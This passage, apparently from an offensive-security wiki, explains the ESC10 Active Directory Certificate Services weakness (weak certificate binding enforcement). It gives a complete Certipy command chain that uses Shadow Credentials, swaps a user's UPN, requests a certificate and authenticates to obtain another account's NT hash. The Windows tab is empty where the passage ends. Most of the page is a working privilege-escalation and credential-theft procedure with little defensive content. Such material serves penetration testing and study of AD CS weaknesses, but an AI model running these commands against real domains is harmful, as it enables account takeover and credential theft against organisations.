 This ESC refers to a weak configuration of the registry keys:

#### Case 1

 * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== Unix-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows
